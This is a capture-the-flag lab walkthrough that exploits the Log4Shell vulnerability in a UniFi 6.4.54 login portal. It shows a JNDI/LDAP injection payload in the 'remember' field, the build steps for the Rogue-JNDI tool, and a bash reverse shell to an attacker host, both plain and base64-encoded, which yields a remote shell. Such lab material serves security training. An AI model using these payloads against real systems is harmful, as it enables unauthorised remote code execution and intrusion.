


unify

Upon accessing the page using a browser we are presented with the UniFi web portal login page and the
version number is 6.4.54 . If we ever come across a version number it’s always a great idea to research that
particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit reveals an
article that discusses the in-depth exploitation of the CVE-2021-44228 vulnerability within this application.
If you would like to learn more about the Log4J vulnerability we have a great Blog post about it.
https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi
https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation
First, we attempt to login to the page with the credentials test:test as we aren’t trying to validate or gain
access. The login request will be captured by BurpSuite and we will be able to modify it.
Before we modify the request, let's send this HTTPS packet to the Repeater module of BurpSuite by
pressing CTRL+R .
The Exploitation section of the previously mentioned article mentions that we have to input our payload into
the remember parameter. Because the POST data is being sent as a JSON object and because the payload
contains brackets {} , in order to prevent it from being parsed as another JSON object we enclose it inside
brackets " so that it is parsed as a string instead.

We input the payload into the remember field as shown above so that we can identify an injection point if
one exists. If the request causes the server to connect back to us, then we have verified that the application
is vulnerable.
${jndi:ldap://{Tun0 IP Address}/whatever}
JNDI is the acronym for the Java Naming and Directory Interface API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides
connections to systems, such as database servers and messaging systems.
LDAP is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information
services over the Internet or a Network. The default port that LDAP runs on is port 389 .

After we hit "send" the "Response" pane will display the response from the request. The output shows us an
error message stating that the payload is invalid, but despite the error message the payload is actually being
executed.
Let's proceed to starting tcpdump on port 389 , which will monitor the network traffic for LDAP connections.
tcpdump is a data-network packet analyzer computer program that runs under a command
line interface. It allows the user to display TCP/IP and other packets being
transmitted or received over a network to which the computer is attached.
Open up another terminal and type:
sudo tcpdump -i tun0 port 389
The above syntax can be broken down as follows.
sudo: Run this via root also known as admin.
tcpdump: Is the program or software that is Wireshark except, it's a command line version.
-i: Selecting interface. (Example eth0, wlan, tun0)
port 389: Selecting the port we are listening on.
After tcpdump has been started, click the Send button in burpsuite to send the request aagin. Now we can see response from the server.

Foothold:
We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to
the server and will give us Remote Code Execution on the vulnerable system.

sudo apt-get install maven

Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java
application.
Let's clone the respective repository and build the package using Maven.
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can
construct our payload to pass into the RogueJndi-1-1.jar Java application.
To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for
giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding
issues.
Creating a Reverse Shell Payload:
echo 'bash -c bash -i >&/dev/tcp/{Attacker_IP}/{Attacker_Port} 0>&1' | base64

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of
the --command option and your tun0 IP address to the --hostname option.
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{Attacker_IP}"
For example:
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.33"

Now that the server is running. We can open a netcat listener at the port specified above. Then return to Burpsuite.

After sending the request, a connection to our rogue server is received and the following message is shown.
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
Once we receive the output from the Rogue server, a shell spawns on our Netcat listener and we can
upgrade the terminal shell using the following command.
script /dev/null -c bash
